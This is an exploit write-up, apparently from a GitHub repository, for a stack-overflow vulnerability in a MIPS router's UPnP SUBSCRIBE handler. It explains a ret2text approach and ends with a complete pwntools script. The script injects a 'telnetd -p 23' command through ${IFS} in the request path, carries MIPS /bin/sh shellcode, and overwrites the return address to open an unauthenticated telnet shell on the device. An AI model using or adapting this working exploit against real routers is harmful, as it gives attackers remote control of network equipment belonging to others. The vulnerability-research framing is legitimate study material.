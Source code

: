 # Detail_EXP

​	**This is where the vulnerability was triggered**

![image-20220214142158985](./img/image-20220214142158985.png)

 	**So we can overlay the return address of the stack overflow function. At that time, we thought about mips-rop, but the 00 character blocked me, so we thought of arranging shellcode on the stack, but ASLR, so I didn't know the stack address. Finally, I chose the utilization method of ret2text to succeed**

​	**Firstly, I chose 0x422850 as the address of stack overflow hijacking. Since MIPS CPU is a multi-level pipeline, you can see that A0 is set as the parameter of system function later, and the parameters are stored on the stack and can be controlled.**

​	<img src="./img/image-20220214143221323.png" alt="image-20220214143221323" style="zoom:50%;" />

​	 **payload can be constructed now. First, the subscribe request is required to enter the function that can overflow the stack**

```
SUBSCRIBE ....  HTTP/1.0\n
```

​	**How much length is required for normal calculation, and try not to destroy some key variables**

​	Finally, this is my exp, which can open telnetd service

```
from pwn import *
p=remote("192.168.0.110",5000)
request = "SUBSCRIBE /gena.telnetd${IFS}-p${IFS}23;?service=" + "1" + " HTTP/1.0\n"
request += "Host: " + "192.168.1.0:" + "80" + "\n"
request += "Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
request += "NT: upnp:event\n"
request += "Timeout: Second-1800\n"
request += "Accept-Encoding: gzip, deflate\n"
request += request+"doud"
stg3_SC =''
stg3_SC += "\xf8\xff\xa5\x23\xef\xff\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24"
stg3_SC += "\x0c\x09\x09\x01\x62\x69\x08\x3c\x2f\x2f\x08\x35\xec\xff\xa8\xaf"
stg3_SC += "\x73\x68\x08\x3c\x6e\x2f\x08\x35\xf0\xff\xa8\xaf\xff\xff\x07\x28"
stg3_SC += "\xf4\xff\xa7\xaf\xfc\xff\xa7\xaf\xec\xff\xa4\x23\xec\xff\xa8\x23"
stg3_SC += "\xf8\xff\xa8\xaf\xf8\xff\xa5\x23\xec\xff\xbd\x27\xff\xff\x06\x28"
stg3_SC += "\xab\x0f\x02\x24\x0c\x09\x09\x01"
request += request+stg3_SC
request = request.ljust(0x1f00,"a")
request += p32(0x7fff7030)
request = request.ljust(0x1f48-0x14,"a")
request += p32(0x422848)
p.send(request)
p.interactive()
```

